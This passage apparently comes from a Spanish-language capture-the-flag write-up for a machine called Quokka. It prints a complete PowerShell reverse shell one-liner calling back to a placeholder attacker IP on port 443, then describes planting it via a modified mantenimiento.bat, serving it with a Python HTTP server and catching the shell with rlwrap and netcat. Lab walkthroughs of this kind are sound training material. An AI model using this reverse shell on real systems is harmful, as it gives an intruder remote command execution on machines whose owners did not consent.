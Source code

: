 <img src="/assets/images/THL-writeup-quokka/Captura4.png">
</p>

```powershell
$client = New-Object System.Net.Sockets.TCPClient('Tu_IP',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Ahora, seguimos el mismo proceso de modificar y subir el script **mantenimiento.bat**.

Levanta un servidor con **Python3**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Utiliza **rlwrap** para abrir una **netcat** que capturará la **Reverse Shell**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```
